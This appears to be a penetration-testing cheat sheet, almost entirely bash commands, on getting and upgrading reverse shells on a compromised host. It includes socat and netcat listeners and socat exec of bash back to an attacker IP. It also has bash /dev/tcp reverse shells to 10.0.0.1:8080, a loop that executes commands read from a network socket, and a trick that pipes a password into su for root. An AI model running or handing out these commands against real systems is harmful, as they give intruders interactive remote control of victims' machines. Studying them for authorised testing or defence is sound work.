 ```bash
# Upgrading to pty
# - https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# 1. attacker_host
socat file:"$(tty)",raw,echo=0 tcp-listen:8081,reuseaddr
# 2. vulnerable_host
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$attacker_host_ip:8081

# Upgrading to tty
# Alternative: drop ssh key in target_host
# References:
# - https://steemit.com/hacking/@synapse/hacking-getting-a-functional-tty-from-a-reverse-shell
# - https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell
# 1. attacker_host
stty raw -echo; nc -lp 8080; stty sane
# 2. in reverse shell
script /dev/null
# ||
reset
export SHELL=bash
export TERM=xterm
stty rows $rows columns $columns

# 1. attacker_host
python -c 'import pty; pty.spawn("/bin/sh")'
# [Ctrl-Z]
stty_state=$(stty -g)
stty raw -echo
fg
# ...
stty raw echo
# ||
stty "$stty_state"

# Validation
tty
# => /dev/pts/0
# ||
[[ $- == *i* ]] &&  echo "y" || echo "n"

# - https://stackoverflow.com/questions/32910661/pretend-to-be-a-tty-in-bash-for-any-command
# - https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal/41872292
# - https://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password
(sleep 2; echo 'admin') | script -qc 'su -c whoami - root'
0<&- script -qfc "ls --color=auto" /dev/null | cat

# - https://www.gnucitizen.org/blog/reverse-shell-with-bash/
# 1. attacker_host
exec 5<>/dev/tcp/10.0.0.1/8080
# 2. vulnerable_host
cat <&5 | while read -r l; do $l 2>&5 >&5; done
# ||
while read -r l 0<&5; do $l 2>&5 >&5; done
# ||
cat <&5 & cat >&5; exec 5>&-

# 1. vulnerable_host
bash -i > /dev/tcp/10.0.0.1/8080 0<&1 2>&1
# 2. attacker_host
script /dev/null

# Language specific
```